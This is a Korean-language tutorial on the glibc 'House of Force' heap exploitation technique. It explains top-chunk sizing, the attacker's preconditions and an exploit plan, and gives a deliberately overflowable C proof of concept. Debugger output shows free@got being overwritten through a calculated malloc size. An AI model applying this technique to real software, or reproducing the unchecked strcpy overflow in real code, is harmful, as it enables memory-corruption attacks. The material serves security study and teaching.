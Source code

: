 # **The House_of_Force**

### **Top Chunk**
 
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc,char *argv[]){
	int size;
	char *buf1, *buf2, *buf3;
	
	buf1 = malloc(256);
	buf2 = malloc(256);
	buf3 = malloc(256);

	free(buf3);
	free(buf2);
	free(buf1);
}
```

일반적으로 Heap 영역에 할당되는 0x21000에서 malloc하여 할당된 chunk size를 뺀 값이 Top Chunk의 크기이다. 

```
0x21000 - 0x110(malloc) = 0x20ef0
0x20ef0 - 0x110(malloc) = 0x20de0
0x20de0 - 0x110(malloc) = 0x20cd0
```

Top Chunk는 재사용 가능한 Chunk가 없고, Top Chunk의 크기가 요청 크기보다 작을 경우 Top Chunk에서 나눠서 할당을 해준다.

Top Chunk에 인접한 Chunk가 free되면 병합하는데 fastbin의 경우 병합에서 제외된다.

```
0x20cd0 + 0x110(free) = 0x20de0
0x20de0 + 0x110(free) = 0x20ef0
0x20ef0 + 0x110(free) = 0x21000
```

## **Condition**

* 공격자에 의해 Top Chunk를 덮어쓸 수 있어야 함(0xffffffffffffffff)
* 공격자에 의해 할당되는 Heap 크기를 제어할 수 있어야 함
* 공격자에 의해 할당된 Chunk 영역에 값을 저장할 수 있어야 함

## **Exploit Plan**

1. Heap 영역 생성
1. Top Chunk 변조
1. 계산된 값을 malloc 인자 값으로 전달해 메모리를 할당
    * Target Address - Allocated Chunk Header Size(16 or 8) - Top Chunk Address
1. 다시 malloc 호출
    * 공격자가 원하는 영역이 할당됨

## **Proof of Concept**

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
 
int main(int argc, char *argv[])
{
        char *buf1, *buf2, *buf3;
        if (argc != 4) return;
 
        buf1 = malloc(256);
        strcpy(buf1, argv[1]);
 
        buf2 = malloc(strtoul(argv[2], NULL, 16));
 
        buf3 = malloc(256);
        strcpy(buf3, argv[3]);
 
        free(buf3);
        free(buf2);
        free(buf1);
 
        return 0;
}
```

argv1 Overflow를 통해 Top Chunk를 0xffffffffffffffff로 변조한다.

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602110 (size : 0xfffffffffffffff8) (top is broken ?) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

"free@got(0x601018)" - "Chunk header size(0x10)" - "Top chunk address(0x602118)" - 0x8 = 0xffffeee8  
  * -0x8을 한 이유 -> Heap 영역은 0x*0 단위로 할당하기 때문

argv2에 0xffffeee8을 입력하여 해당 크기만큼 malloc을 해준다.

argv3에 BBBBBBBBCCCCCCCC를 입력하면 free@got가 변조된다.

```
gdb-peda$ x/24gx 0x601018-0x10
0x601008:	0x0000000000000111	0x4242424242424242
0x601018:	0x4343434343434343	0x00007ffff7ab2900
0x601028:	0x00007ffff7a2d740	0x00007ffff7a91130
0x601038:	0x00007ffff7a483f0	0x0000000000000000
```

**References**  
<https://www.lazenca.net/display/TEC/The+House+of+Force>
<https://hackstoryadmin.tistory.com/entry/What-is-heap-part1>